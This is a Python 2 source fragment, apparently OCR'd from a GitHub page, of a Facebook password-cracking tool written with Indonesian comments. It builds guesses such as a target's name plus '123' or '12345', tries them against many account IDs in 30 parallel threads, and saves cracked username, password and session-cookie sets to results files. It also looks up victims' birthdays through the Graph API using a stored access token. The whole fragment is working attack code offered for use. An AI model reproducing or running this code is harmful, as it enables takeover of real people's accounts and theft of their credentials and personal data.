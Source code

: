                 wrt = ' [✓] %s|%s|%s' % (user,pw,kuki)
                ok.append(wrt)
                open('results/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                break
                continue
            elif "checkpoint" in ses.cookies.get_dict().keys():
                try:
                    kontol = open('.memek.txt').read()
                    cp_ttl = requests.get('https://graph.facebook.com/%s?access_token=%s'%(user,kontol)).json()['birthday']
                    month, day, year = cp_ttl.split('/')
                    month = bulan_ttl[month]
                    print '\r  %s* --> %s|%s|%s %s %s     %s' % (K,user,pw,day,month,year,N)
                    wrt = ' [×] %s|%s|%s %s %s' % (user,pw,day,month,year)
                    cp.append(wrt)
                    open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                    break
                except (KeyError, IOError):
                    month = ''
                    day   = ''
                    year  = ''
                except:
                    pass

                print '\r  %s* --> %s|%s                %s' % (K,user,pw,N)
                wrt = ' [×] %s|%s' % (user,pw)
                cp.append(wrt)
                open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                break
                continue

        loop += 1

    def __pler__(self):
        yan = raw_input('\n [*] method : ')
        if yan == '':
            print '\n %s[%s×%s] jangan kosong bro'%(N,M,N);self.__pler__()
        elif yan in ('1', '01'):
            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)
            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)
            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)
            with YayanGanteng(max_workers=30) as (__yayanXD__):
            	for yntkts in self.id: # Yo Ndak Tau Kok Tanya Saia
                    try:
                        uid, name = yntkts.split('<=>')
                        xz = name.split(' ')
                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:
                            pwx = [name, xz[0]+"123", xz[0]+"12345"]
                        else:
                            pwx = [name, xz[0]+"123", xz[0]+"12345"]
                        __yayanXD__.submit(self.__api__, uid, pwx)
                    except:
                        pass
